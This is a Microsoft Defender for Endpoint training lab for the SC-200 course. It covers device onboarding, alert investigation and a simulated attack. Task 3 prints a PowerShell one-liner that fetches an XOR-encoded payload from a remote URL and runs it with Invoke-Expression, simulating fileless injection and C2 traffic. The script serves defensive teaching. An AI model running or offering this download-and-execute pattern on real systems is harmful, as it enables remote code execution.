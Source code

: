 ```yaml
---
lab:
    title: 'Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint'
    module: 'Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint'
---
```


# Learning Path 2 - Lab 1 - Exercise 2 - Mitigate Attacks with Microsoft Defender for Endpoint

## Lab scenario

![Lab overview.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will verify successful device onboarding and investigate alerts and incidents created during that process.

### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. If you are not already at the Microsoft Defender XDR portal in your Microsoft Edge browser, go to (<https://security.microsoft.com>) and login as Admin for your tenant.

1. In the left-hand menu, under the **Assets** area, select **Devices**. Please wait until WIN1 appears in the Devices page before you continue. Otherwise, you might need to repeat this task to see the alerts that will be generated later.

    >**Note:** If you have completed the onboarding process and don't see devices in the Devices list after an hour, it might indicate an onboarding or connectivity problem.

1. In the Microsoft Defender XDR portal left menu bar, expand the **System** section and select **Settings**, then from the *Settings* page select **Endpoints**.

1. Select **Onboarding** in the Device management section and make sure *"Windows 10 and 11"* is selected as operating system. The *"First device onboarded"* message now shows *Completed*.

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

1. In the windows search bar of the WIN1 virtual machine, type **CMD** and choose to **Run as Administrator** on the right pane for the Command Prompt app.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    >**Note:** The window closes automatically after successfully running the script, and after a few minutes alerts are generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal expand **Investigation & responce** from the left menu bar, then expand **Incidents & alerts** and select **Alerts**.

    >**Note:** On updated versions of the Microsoft Defender XDR portal page *Incidents & alerts* are found under the *Investigations & response* menu heading.

1. In the **Alerts** pane, select the alert named *[TestAlert] Suspicious PowerShell commandline* to load its details.

1. Review the *Alert story* timeline, and then review the *Details* and *Recommendations* tabs.

    >**Note:** Under the alert *Details* tab you can scroll down to the *Incident details* section and select the *Execution incident on one endpoint* link to open the incident.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**

1. Clear the *Alert severity* filter by selecting the **X** on the right of the filter.

1. A new incident called *[TestAlert] Suspicious PowerShell commandline* appears in the right pane. Select the incident name to load its details.

1. Select the **Manage incident** link (with a pencil icon) and a new window blade appears.

1. Under **Incident tags** type "Simulation" and select **Simulation (Create new)** to create a new tag.

1. Select the toggle **Assign to**  and add your user account (Me) as owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing**.

1. Select **Save** to update the incident and finish.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

### Task 3 Simulate an Attack

>**Warning:** This simulated attack is an excellent source of learning through practice. Only perform the attack in the instructions provided for this lab when using the course provided Azure tenant.  You may perform other simulated attacks *after* this training course is complete with this tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the WIN1 virtual machine, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Note:** If you experience errors (in red) while running the script, you can open the Notepad app and copy the script into a blank file. Make sure *word wrap* is turned on in Notepad. Then, copy and run each line of the script separately in PowerShell. Also, a PowerShell script (attacksim.ps1) was provided in the files downloaded at the beginning of the labs. To use the script, in **Windows PowerShell (Admin)** navigate to the *\Users\Admin\Desktop\Allfiles* folder and type *.\attacksim.ps1* and press **Enter** to run it.

1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

### Task 4: Investigate the simulated attack as a single incident

1. In the Microsoft Defender XDR portal expand **Investigation & responce** from the left menu bar, then expand **Incidents & alerts** and select **Incidents**.

    >**Note:** On updated versions of the Microsoft Defender XDR portal page *Incidents & alerts* are found under the *Investigations & response* menu heading.

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

    >**Note:** If you do not see the incident, make sure to clear the *Alert severity* filter by selecting the **X** on the right of the filter.

1. Under the *Attack story* tab, collapse the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Re expand the **Alerts** pane (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. In the pop-up window review the IP address details and scroll down and select the **Open IP address page** button.

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain and information for the IP address.

## You have completed the lab
